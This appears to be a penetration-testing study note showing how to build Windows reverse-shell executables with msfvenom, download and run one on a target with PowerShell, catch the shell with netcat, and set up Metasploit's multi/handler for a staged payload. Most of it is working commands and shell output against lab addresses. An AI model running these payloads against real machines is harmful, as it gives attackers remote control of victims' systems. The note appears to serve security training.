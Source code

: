 Using `shell_reverse_TCP` non-staged payload to create Windows executable

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe`

Download non-staged payload binary and execute it on target machine

```
PS C:\Users\justin> iwr -uri http://192.168.119.2/nonstaged.exe -Outfile nonstaged.exe

PS C:\Users\justin> .\nonstaged.exe
```

Receive shell on nc listener

```hlt:1,7
kali@kali:~$ nc -nvlp 443 
listening on [any] 443 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.202] 50822
Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Users\justin>
```

Created staged TCP reverse shell payload with #msfvenom now

`msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o staged.exe`

Download this executable on target and receive reverse shell 

```hlt:1 
kali@kali:~$ nc -nvlp 443                                                                                
listening on [any] 443 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.202] 50832
whoami
```

Netcat cannot handle staged payloads so commands can't be executed.

For interactive shell, use Metasploit's `multi/handler` module. 

In msfconsole, type `use multi/handler`

```
msf6 exploit(multi/http/apache_normalize_path_rce) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
```

Set the staged payload

```
msf6 exploit(multi/handler) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
```

Set options 

```
msf6 exploit(multi/handler) > set LHOST 192.168.119.2
LHOST => 192.168.119.2
msf6 exploit(multi/handler) > set LPORT 443
```
